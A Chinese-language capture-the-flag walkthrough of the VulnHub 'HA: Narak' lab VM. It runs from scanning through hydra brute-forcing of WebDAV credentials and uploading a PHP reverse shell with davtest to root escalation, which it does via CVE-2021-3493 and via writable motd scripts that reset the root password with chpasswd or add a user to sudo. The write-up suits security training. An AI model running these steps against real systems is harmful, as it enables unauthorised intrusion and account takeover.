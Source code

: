 靶机地址：[HA: Narak ~ VulnHub](https://www.vulnhub.com/entry/ha-narak,569/)
需要先配置网络：GRUB选项下按e进入编辑模式，改为单用户启动模式
```
	linux    /vmlinuz-5.4.0-72-generic root=/dev/mapper/ubuntu--\
vg-ubuntu--lv rw single init=/bin/bash
```
按 `Ctrl+x` 或 `F10` 启动
查看网卡名
```Shell
ip a
# enp0s17
```
编辑网络配置文件
```Shell
vi /etc/network/interfaces
# 或
vi /etc/netplan/0x-xx-xx.yaml
```
将网卡名修改为正确的后重启机器即可

主机发现、端口扫描、服务枚举
```Shell
sudo arp-scan -l
sudo nmap -p- 192.168.1.47
sudo nmap -p "22,80" -sV 192.168.1.47
# 22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
# 80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```
简单看了下web服务，没发现什么特别的，路径扫描一下
```Shell
sudo dirsearch -u http://192.168.1.47
# /webdav/index.html
```
尝试访问 `/webdav/index.html` ，需要身份认证
进一步路径扫描，收集更多信息
```Shell
sudo dirsearch -u http://192.168.1.47 -f -e html,txt,php -w /usr/share/dirb/wordlists/common.txt
# /tips.txt
```
提示内容如下
```
Hint to open the door of narak can be found in creds.txt.
```
但是找不到这个文件，这个信息没什么用
定制字典文件
```Shell
cewl 192.168.1.47 -w wl.txt
```
用户名和密码都使用定制字典进行暴力破解
```Shell
hydra -L wl.txt -P wl.txt http-get://192.168.1.47/webdav/index.html
# [80][http-get] host: 192.168.1.47   login: yamdoot   password: Swarg
```
webdav测试
```Shell
davtest -url "http://192.168.1.47/webdav/" -auth "yamdoot:Swarg"
```
上传都成功了，PHP可以被解析
手动上传一个PHP的反弹shell脚本
```Shell
davtest -url "http://192.168.1.47/webdav/" -auth "yamdoot:Swarg" -uploadfile php-reverse-shell.php -uploadloc rs.php
```
上传成功，访问一下，获取到反弹shell
信息收集，存在如下几个用户
```
root:x:0:0:root:/root:/bin/bash
narak:x:1000:1000:narak,,,:/home/narak:/bin/bash
yamdoot:x:1001:1001:,,,:/home/yamdoot:/bin/bash
inferno:x:1002:1002:,,,:/home/inferno:/bin/bash
```
在narak的主目录下发现 `user.txt` 里面有一个flag
尝试提权，使用 [[20 CVE#CVE-2021-3493|CVE-2021-3493]] 成功提权

其它提权方式
```Shell
find / -user root -type f -perm -o=rwx 2>/dev/null
# /mnt/hell.sh
cat /mnt/hell.sh
# echo"Highway to Hell";
# --[----->+<]>---.+++++.+.+++++++++++.--.+++[->+++<]>++.++++++.--[--->+<]>--.-----.++++.
```
这是一串Brain Fuck语言，将内容写入 `bf.txt`
```Shell
brainfuck bf.txt
# chitragupt
```
尝试SSH
```Shell
ssh narak@192.168.1.47
# Permission denied, please try again.
ssh yamdoot@192.168.1.47
# Permission denied, please try again.
ssh inferno@192.168.1.47
# Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-20-generic x86_64)
```
`inferno` 登录成功，尝试提权
```Shell
find / -user root -type f -perm -o=rwx 2>/dev/null
```
输出如下
```
/mnt/hell.sh
/etc/update-motd.d/91-release-upgrade
/etc/update-motd.d/00-header
/etc/update-motd.d/50-motd-news
/etc/update-motd.d/80-esm
/etc/update-motd.d/80-livepatch
/etc/update-motd.d/10-help-text
```
编辑一个文件，如 `vi /etc/update-motd.d/00-header` ，其实都是shell脚本，加入如下内容
```Shell
# 改root密码
echo 'root:33334444' | chpasswd
# 或
# 将当前用户加入sudo组 前提得知道登录密码
usermod -a -G sudo inferno
```
